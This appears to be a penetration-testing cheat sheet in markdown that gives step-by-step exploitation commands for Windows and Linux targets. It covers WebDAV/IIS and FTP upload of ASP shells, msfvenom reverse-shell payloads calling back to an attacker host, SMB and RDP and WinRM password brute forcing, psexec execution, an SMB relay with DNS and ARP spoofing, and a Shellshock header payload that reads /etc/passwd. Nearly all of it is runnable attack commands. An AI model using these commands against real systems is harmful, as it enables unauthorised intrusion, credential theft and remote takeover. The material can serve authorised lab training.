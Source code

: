 # Exploitation

# Summary

- [Windows OS](#windows-os)
  - [IIS Server](#iis-server)
  - [SMB](#smb)
      - [SMB Relay Attack](smb-relay-attack)
  - [RDP](#rdp)
  - [WinRM](#winrm)

- [Linux OS](#linux-os)
  - [ShellShock (CVE-2014-6271)](#shellshock-cve-2014-6271)



# Windows OS

## IIS Server

**Wonderful article**: https://medium.com/@ennoukhbadr/webdav-penetration-351d59ac9859

Supported **executable** file extensions :
- .asp
- .aspx
- .config
- .php

**Davtest** to check which extension can be executed on the server :
```bash
davtest -url 'http://<IP>/webdav/' -auth 'admin:password_123321'
```

**Cadaver** to connect, upload, remove, ... :
```bash
# Connect then use 'put' to upload a malicious file
cadaver http://<IP>/webdav/
```

Of course, we can use **Metasploit** : 
```bash
# For asp reverse shell :
use exploit/windows/iis/iis_webdav_upload_asp

# Set options :
set PATH /webdav/whatever.asp (IMPORTANT !)
set RHOSTS <IP>
set HttpUsername
set HttpPassword
```

### Microsoft FTP

If you can modify the website thanks to FTP, you can upload a `.asp` or `.aspx` file on the web server to gain a reverse shell.

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=1234 -f asp > shell.aspx
```

## SMB

Try to find valid credentials with bruteforcing `Administrator` account : 
```bash
# With Metasploit Module :
use auxiliary/scanner/smb/smb_login

set RHOSTS <IP>
set PASS_FILE /path/to/wordlist
set SMBUser Administrator
set STOP_ON_SUCCESS true
```

Then, create a malicious file (reverse shell) with **MSFvenom**: 
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.41.3 LPORT=1234 -f exe -o payload.exe
```

Upload your shell with **smbclient** and execute it with **psexec.py** :
```bash
psexec.py Administrator@10.2.20.249 "C:\Users\Administrator\Desktop\payload.exe"
```

You can also **pop a shell** with : 
```bash
# PSexec.py
psexec.py Administrator@10.2.20.249 cmd.exe

# Metasploit Module (Meterpreter Session !):
use exploit/windows/smb/psexec

set RHOSTS <IP>
set SMBUser Administrator
set SMBPass Password1 # You can also Pass The Hash !
```

### SMB Relay Attack

> An SMB relay attack is a type of network attack where an attacker
intercepts SMB (Server Message Block) traffic, manipulates it, and relays
it to a legitimate server to gain unauthorized access to resources or
perform malicious actions.

1. Configure SMB Relay Exploit :
```
msfconsole
use exploit/windows/smb/smb_relay
set SRVHOST <YOUR-IP>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <YOUR-IP>
set SMBHOST <TARGET>
exploit
```

2. Configure **dnsspoof** in order to redirect the victim to our Metasploit system every time there's an SMB connection to any host in the domain :
```
echo "<YOUR-IP> *.DOMAIN.TLD" > fake_dns.txt
```

3. Run **DnsSpoof** :
```
dnsspoof -i eth1 -f dns
```

4. Enable the IP forwarding : 
```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

5. Start the **ARP Spoof attack** :
```
arpspoof -i eth1 -t 172.16.5.5 172.16.5.1
arpspoof -i eth1 -t 172.16.5.1 172.16.5.5
```

6. Wait for connections.


## RDP

Sometimes RDP doesn't run on the default port, so check :
```bash
use auxiliary/scanner/rdp/rdp_scanner 
```

- Bruteforce :
```bash
hydra -L Administrator -P /opt/rockyou.txt 10.2.16.41 rdp -v -V
```

- Connection : 
```bash
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>[:PORT]
```


## WinRM

- Bruteforce :
```bash
# Metasploit Module
use auxiliary/scanner/winrm/winrm_login

set RHOSTS <IP>
set PASS_FILE 
set USER_FILE
set VERBOSE true/false

# CrackMapExec :
crackmapexec winrm <IP> -u Administrator -p /opt/rockyou.txt
```

- Connect to the target :
```bash
# Evil-WinRM :
evil-winrm.rb -i 10.2.21.115 -u Administrator -p password

# Metasploit Module :
use exploit/windows/winrm/winrm_script_exec

set RHOSTS <IP>
set USERNAME
set PASSWORD
set FORCE_VBS true 
```


# Linux OS


## CVE-2014-6271 (ShellShock)

### Description

>Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in
the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary
commands via Bash, consequently allowing the attacker to obtain remote
access to the target system via a reverse shell.

### Proof Of Concept

Links :
- https://beaglesecurity.com/blog/vulnerability/shellshock-bash-bug.html
- https://github.com/opsxcq/exploit-CVE-2014-6271


If you find a `.cgi` script on the web server, check if it is vulnerable to *ShellShock* with **NSE** :
```bash
nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" demo.ine.local
```

Then, inject your payload in the `User-Agent:` field :
```bash
() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
```


You can also use **Metasploit** :
```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec

set RHOSTS <IP>
set TARGETURI /script.cgi
```


